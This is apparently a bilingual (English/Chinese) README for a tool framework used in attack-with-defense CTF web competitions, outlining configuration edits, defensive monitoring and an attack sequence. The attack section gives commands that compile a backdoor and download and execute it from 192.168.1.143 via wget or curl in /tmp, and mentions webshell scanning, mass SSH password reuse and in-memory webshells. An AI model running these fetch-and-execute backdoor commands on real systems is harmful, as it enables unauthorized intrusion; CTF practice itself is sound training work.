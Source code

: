 ## Introduction
This framework is used to help enjoy the AWD-web in CTF.
Maybe in the future we can expand it into a common security test platform.

### lottery passwd
若全场ssh口令均一致时，可以快速收割一波

### 修改内容
- 交flag机的参数
- contro.py里面交flag的函数
- backdoor.c 里面回连IP
- log里面日志位置
- filecmp里面文件夹位置

### 防御
- (找到代码位置)拖源代码
- 自己给自己上一句话，用www-data的权限给自己回连内存马
- 文件监控
- 抓流量*
- 流量分析
- 交flag机调试成功

### 攻击
- webshell扫描一波
- 发现目标页面
- 批量攻击
- 上马 
    - gcc -o check backdoor.c -lpthread -g
    - cd /tmp&&wget -O check 192.168.1.143/upload/check&&chmod +x check&&./check
    - cd /tmp;curl -o check 192.168.1.143/check;chmod +x check;./check
- 垃圾流量

### notice
- www-data 无法直接反弹shell，不能执行python -c